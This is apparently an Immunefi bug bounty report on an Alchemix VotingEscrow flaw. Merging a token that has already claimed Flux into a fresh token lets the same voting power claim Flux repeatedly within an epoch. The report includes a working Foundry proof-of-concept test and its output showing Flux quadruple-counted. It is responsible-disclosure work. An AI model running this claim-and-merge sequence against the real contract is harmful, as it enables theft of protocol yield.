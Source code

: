 
# Merging tokens allows multiple Flux accruals within an epoch

Submitted on Mon May 20 2024 04:37:06 GMT-0400 (Atlantic Standard Time) by @Holterhus for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31488

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/VotingEscrow.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro

A token that has claimed Flux in the current epoch can be merged with a token that has not yet claimed Flux. This allows the already claimed token to transfer its Flux and reuse its voting power through the non-voted token. An attacker can exploit this by repeatedly merging voted tokens with fresh, non-claimed tokens to perpetually claim Flux using the same initial voting power. This allows an attacker to accrue unlimited Flux instantly.

## Vulnerability Details

Every token is allowed to accrue Flux once per epoch. The amount of claimable Flux is calculated in the `claimableFlux()` function, which multiplies the current voting power of the token by `fluxPerVeALCX`.

In the `VotingEscrow` contract, the `merge()` function allows a user to combine the voting power of token `from` and token  `to`, with the `from` token ultimately burned while the `to` token continues with the combined voting power. Nothing prevents someone from claiming Flux with the `from` token, transferring its voting power to a fresh `to` token, and claiming Flux again. This will double count the underlying voting power and allow claiming multiple times in an epoch. 

## Impact Details

An attacker can repeat the accrual of their Flux multiple times in an epoch using the same underlying voting power. This allows for an infinite mint of Flux.

## References
See the PoC below.
        
## Proof of concept
## Proof of Concept

I have created the following test file and added it to the `tests/` directory:


```
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract UnlimitedAccrueFluxBug is BaseTest {

    constructor() {
        setupContracts(block.timestamp);
    }

    uint256 constant NUM_LOOPS = 5;

    function testUnlimitedAccrueFluxBug() public {
        vm.startPrank(admin);

        uint256[] memory tokenIds = new uint256[](NUM_LOOPS);
        for (uint256 i; i < NUM_LOOPS; ++i) {
            if (i == 0) tokenIds[i] = createVeAlcx(admin, TOKEN_100K, MAXTIME, false);
            else tokenIds[i] = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        }

        uint256 expectedClaimableFlux;
        for (uint256 i; i < NUM_LOOPS; ++i) {
            expectedClaimableFlux += veALCX.claimableFlux(tokenIds[i]);
        }

        for (uint256 i = 1; i < NUM_LOOPS; ++i) {
            uint256 prev = tokenIds[i-1];
            uint256 next = tokenIds[i];

            voter.reset(prev);
            flux.claimFlux(prev, flux.getUnclaimedFlux(prev));
            veALCX.merge(prev, next);
        }

        console.log("Expected claimable FLUX:", expectedClaimableFlux);
        console.log("Actual FLUX claimed:", flux.balanceOf(admin));

        vm.stopPrank();
    }

}
```

Running the command `forge test -vvv --match-test testUnlimitedAccrueFluxBug --rpc-url $ETH_RPC_URL` gives the following result:

```
[PASS] testUnlimitedAccrueFluxBug() (gas: 5019008)
Logs:
  Expected claimable FLUX: 98583512563800063892800
  Actual FLUX claimed: 39432419229826226642800
```


Since `39432419229826226642800 / 98583512563800063892800` is approximately `3.999`, this specific example shows that the Flux from `tokenIds[0]` can be quadruple counted by using 4 fresh token ids. 
